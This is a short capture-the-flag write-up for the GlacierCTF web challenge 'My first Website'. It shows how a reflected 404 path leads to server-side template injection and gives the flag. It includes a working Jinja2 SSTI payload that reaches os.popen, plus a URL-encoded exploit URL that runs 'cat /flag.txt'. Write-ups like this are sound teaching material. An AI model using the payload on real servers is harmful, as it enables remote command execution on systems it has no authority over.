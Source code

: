 # My first Website [170 Solves]

## Description

> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
>
> author: Chr0x6eOs
>
> <https://myfirstsite.web.glacierctf.com>

No attachments.

## Flag

gctf{404_fl4g_w4s_f0und}

## Solution

![1.png](img/1.png)

![2.png](img/2.png)

Click `here` link to check out the other project, but it's 404.

The title `Custom 404 Page` indicates the potential use of a template on the server.
Since the URL path (`/projects`) is rendered in HTML, testing Server-Side Template Injection (SSTI) shows that `{{7*7}}` results in 49.

![3.png](img/3.png)

The final step is RCE to get the flag.

- payload: `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}`
- URL: <https://myfirstsite.web.glacierctf.com/%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__(%22os%22).popen(%22cat%20/flag.txt%22).read()%20%7D%7D>

![flag.png](img/flag.png)
